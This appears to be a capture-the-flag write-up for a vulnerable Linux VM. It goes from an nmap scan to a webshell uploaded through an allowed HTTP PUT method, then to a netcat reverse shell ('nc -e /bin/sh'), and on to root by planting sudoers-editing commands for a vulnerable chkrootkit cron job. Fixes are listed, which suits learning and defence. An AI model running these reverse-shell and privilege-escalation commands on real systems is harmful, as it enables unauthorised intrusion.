








# Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Thu Jun  2 19:19:53 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 192.168.65.136
Nmap scan report for 192.168.65.136
Host is up (0.00049s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: lighttpd/1.4.28
MAC Address: 00:0C:29:6B:47:49 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.16 - 4.6, Linux 3.2 - 4.9, Linux 4.4
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.49 ms 192.168.65.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun  2 19:21:53 2022 -- 1 IP address (1 host up) scanned in 120.22 seconds
``` 
</br>

**Initial Shell Vulnerability Exploited:** </br>
Found /test directory with dirbuster directory fuzzing: </br>
 </br>
Main Page was empty, I decided to check the HTTP permission methods on the server side, with
Burpsuite: </br>
 </br>

I replaced ‘GET’ with OPTIONS and I could see at the response some request methods that should have
been disallowed, The most interesting one is the ‘PUT’ method: </br>
**PUT** is used to send data to a server to create/update a resource, that means that we could upload files into the /test directory.
</br>
I uploaded a webshell: </br>

 </br>
 </br>
I got a reverse shell with netcat: </br>
```bash
Attacker side: nc -nlvp 443
Victim side: nc -e /bin/sh 192.168.65.136 443
```
</br>
I used port 443 because the machine had port restriction, port 443 is commonly used for web traffic, so i tried it out and it worked.
</br>

**Vulnerability Explanation:** The HTTP PUT method is normally used to upload data that is saved on the server
at a user-supplied URL. If enabled, an attacker may be able to place arbitrary, and potentially
malicious, content into the application. </br>
Put method is usually disallowed, because it might lead to unrestricted file
upload and an attacker could upload a reverse shell. </br>
**Vulnerability Fix:** Enable only HTTP methods on your web server which are necessary for your
application to run. Use only GET and POST methods for all HTTP requests where
possible. </br>
If you need any insecure HTTP methods to be enabled on your server, make sure
they are properly authorized and available only for specific resources. This
way you’ll prevent any malicious usage of those. </br> </br>
**Initial Shell Screenshot:** </br>
 </br>

# Privilege Escalation:
I used LinPeas Script for enumeration: </br>
 </br>
From all of the cronjobs, chkrootkit stands out. </br>
I found a privilege escalation exploit on [Exploit-DB](https://www.exploit-db.com/exploits/33899) </br>
he exploit is for Chkrootkit version 0.49, so I checked the version of this tool on the machine: </br>
 </br>
This version is vulnerable. </br>
First, I created a file inside of the /tmp/update directory with a bash command and made it executable: </br>
```echo ‘touch /tmp/exploit’ > update``` </br>
Then I gave it ‘777’ permissions with: ```chmod 777 update``` </br>
And waited until the cron job ran. </br>
 </br>
Knowing the previous command executed, I could add my current user to the sudoers file and get root
privileges: </br>
```echo “chmod 777 /etc/sudoers” > update``` </br>
Then I gave the file this permissions to make it editable: </br>
```echo www-data ALL=(ALL)NOPASSWD: ALL >> etc/sudoers``` </br>
In order to append that to the sudoers file, which will eventually add us to the sudoers and grant us root
privileges. and then I had to change again the permissions for the sudoers file, because otherwise It wouldn't work: </br>
```echo “chmod 440 /etc/sudoers” > update``` </br>
**Vulnerability Explanation:** </br>
chkrootkit:
chkrootkit is a tool to locally check for signs of a rootkit, the vulnerability
in the chkrootkit package, and it may allow local attackers to gain root access
to a box in certain configurations (/tmp not mounted noexec). The vulnerability
is located in the function slapper() in the shell script chkrootkit. </br>
**Vulnerability Fix:** Upgrade to the latest version of chkrootkit (0.50 or later), available from the
chkrootkit Web site. </br>
**Proof of screenshot:** </br>

